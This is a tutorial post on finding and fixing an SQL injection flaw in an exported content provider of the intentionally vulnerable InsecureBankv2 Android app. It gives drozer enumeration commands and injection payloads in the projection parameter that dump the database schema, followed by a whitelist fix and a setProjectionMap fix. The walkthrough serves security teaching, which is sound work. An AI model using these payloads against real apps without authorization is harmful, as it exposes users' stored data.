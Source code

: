 ```yaml
---
layout: default
title: Identifying and Fixing Security Vulnerabilities of Android Applications - Content Providers
description: Identify and fix security vulnerabilities in Android content provider implementations
permalink: /android/security/:title
---
```


### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

Let's use [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) to determine content providers that InsecureBank application exports:

```
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

As seen from the above output, there is one content provider which is not protected by a permission. This means that any application on the same device can read and write to that provider. Let's determine what data does the given provider deal with. Usually, content providers use either SQLite databases or files as an underneath data storage with which they operate. In case of an SQLite database, content providers may be vulnerable to SQL injection vulnerabilities. The next step going forward is to determine which URIs does the provider deal with. We can do this by inspecting a reversed engineered source code of an application, or by using a dedicated drozer command (in a real world scenario, we would probably do both just to be on the safe side):

```
dz> run app.provider.finduri com.android.insecurebankv2
Scanning com.android.insecurebankv2...
content://com.android.insecurebankv2.TrackUserContentProvider/
content://com.google.android.gms.games
content://com.android.insecurebankv2.TrackUserContentProvider
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.google.android.gms.games/
```

Next, we need to find if drozer found actual URIs. So, let's try queyring those URIs that deal with application:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/
Unknown URI content://com.android.insecurebankv2.TrackUserContentProvider/
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
| id | name   |
| 1  | dinesh |
```

We did not have luck with the first one, but we were able to successfully retrieve the content of `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`, which, apparently, shows us users that have used an application. 

### Exploit

Let's determine now if that content provider is vulnerable to SQL injection. As specified in Android [content providers documentation](https://developer.android.com/guide/topics/providers/content-provider-basics.html#Query), when constructing a query, projection defines which columns should be returned. This is where we can try to inject control character `'` to determine whether provider is vulnerable:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "'"
unrecognized token: "' FROM names ORDER BY name" (code 1): , while compiling: SELECT ' FROM names ORDER BY name
```

As you can see, `'` token was used when constructing our query and that resulted in a SQL error. This means that our input was passed to SQL unsanitized. Now, let's try to determine if we can actually determine the structure of a database by constructing more elaborate injection:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "* from sqlite_master --"
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
```

In the above attack we used string `* from sqlite_master --` effectively turning the query that was executed into `SELECT * from sqlite_master`, which just gave us all tables in the underlying database.

As a side note, we will mention that drozer even has a dedicated command to execute similar type of an attack:

```
dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
  android_metadata
  names
  sqlite_sequence
```

### Fix

Proper design should always start with a discussion whether there is a legitimate need to export a given content provider, and then, what would be proper permissions to protect it (Hint: Use _signature_ permission to prevent other apps not developed by you from communicating with your app). But we already spent some time with the topic of permissions in one of the previous posts, so, let's try to see how to avoid SQL injection per se. 

When discussing the topic of SQL injection, it is almost customary to introduce a vulnerability by doing string concatenation. However, when we open a code of `TrackUserContentProvider`, we will see that this is not the case:

```
public Cursor query(Uri uri, String[] projection, String selection,	String[] selectionArgs, String sortOrder) {
		SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
		qb.setTables(TABLE_NAME);
		
		switch (uriMatcher.match(uri)) {
			case uriCode:
				qb.setProjectionMap(values);
				break;
			default:
				throw new IllegalArgumentException("Unknown URI " + uri);
		}
		if (sortOrder == null || sortOrder == "") {
			sortOrder = name;
		}
		Cursor c = qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
		
		// ...
	}
```

The developer used a class `SQLiteQueryBuilder` from class library, and called `query` method on it passing `projection` parameter received from the caller. So, let's look into the [source code of this class](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/database/sqlite/SQLiteQueryBuilder.java). At the time when I checked (January 2017), the `query` method had the following comment which indicated about protection against SQL injection in `selection` parameter:

```
// Validate the user-supplied selection to detect syntactic anomalies
// in the selection string that could indicate a SQL injection attempt.
```

So, there is a protection against injection in `selection` parameter. But what about `projection` parameter?! Turns out, more work is needed from the consumer of that API. 

There seems to be two ways how to deal with it. The first way that comes into mind is to do a whitelisting of fields that we allow to query. After all, `projection` parameter defines fields that may exist in the database, so, we can check whether the parameter contains legitimate fields before continuing with the query. Here is an example code one might add to the beginning of `query` method:

```
HashSet<String> validProjections = new HashSet<>(Arrays.asList("id", "name"));
for (String p : projection) {
    if (!validProjections.contains(p)) throw new IllegalArgumentException("Unknown projection: " + projection);
}
```

For our fix, we will choose another way by using `setProjectionMap` method from `SQLiteQueryBuilder` class. As stated in the [documentation](https://developer.android.com/reference/android/database/sqlite/SQLiteQueryBuilder.html#setProjectionMap(java.util.Map%3Cjava.lang.String,%20java.lang.String%3E)),

> If a projection map is set it must contain all column names the user may request, even if the key and value are the same.

`TrackUserContentProvider` already has a static `values` HashMap that is being used in the following method call:

```
qb.setProjectionMap(values);
```

The problem is that `values` HashMap is never populated. Let's add to it two possible columns that can exist in table `names`: `id` and `name` (Note, that since we don't specify a mapping between user provided names and database names, we use the same strings for keys and values in the HashMap):

```
values = new HashMap<>();
values.put("id", "id");
values.put("name", "name");
```

When we recompile our application and send it to the device, we will see that SQL injection does not work anymore:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"
Invalid column '
```

### Summary

In this post we looked at exploiting SQL injection in unsecured content provider. We also showed how to fix this vulnerability either by introducing whitelisting or using a method from the framework.
